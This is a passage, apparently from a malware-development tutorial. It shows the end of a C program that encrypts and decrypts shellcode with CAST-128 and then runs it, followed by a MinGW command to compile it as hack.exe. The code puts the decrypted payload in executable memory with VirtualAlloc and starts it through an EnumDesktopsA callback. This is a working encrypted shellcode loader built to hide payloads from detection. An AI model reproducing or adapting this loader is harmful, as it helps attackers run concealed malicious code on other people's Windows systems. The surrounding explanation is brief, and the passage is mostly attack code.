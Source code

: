 ```cpp

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```

So, this example demonstrates how to use the `CAST-128` encryption algorithm to encrypt and decrypt payload. For checking correctness, added printing logic.      

### demo

Let’s go to see everything in action. Compile it (in my `linux` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc
```
